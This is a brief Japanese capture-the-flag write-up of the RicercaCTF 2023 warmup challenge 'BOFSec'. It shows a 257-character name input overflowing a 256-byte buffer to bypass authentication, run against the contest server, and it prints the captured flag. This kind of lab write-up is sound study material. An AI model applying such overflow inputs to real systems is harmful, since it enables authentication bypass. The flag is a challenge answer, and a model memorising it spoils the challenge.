 tag: pwn, warmup

BOFSec
97 pts

authored by ptr-yudai

100% authentic

nc bofsec.2023.ricercactf.com 9001

=========
 BOFSec : main.c を読んで 
 char name[0x100]; の大きさが256文字であったので
 
 % seq 256 | xargs -i echo -n a
 
 これで256文字を名前に入力して、認証失敗することを確認した。
 そのあと、257文字を名前に入力すると、認証が成功してflag を取得できた
 
 ~/CTF/bofsec$ seq 256 | xargs -i echo -n a
 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
 $ ./chall
 Name: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
 [-] Authentication failed.
 ~/CTF/bofsec$ ./chall
 Name: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
 [+] Authentication successful.
 [!] Cannot open '/flag.txt'
 ~/CTF/bofsec$ nc bofsec.2023.ricercactf.com 9001
 Name: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
 [+] Authentication successful.
 Flag: RicSec{U_und3rst4nd_th3_b4s1c_0f_buff3r_0v3rfl0w}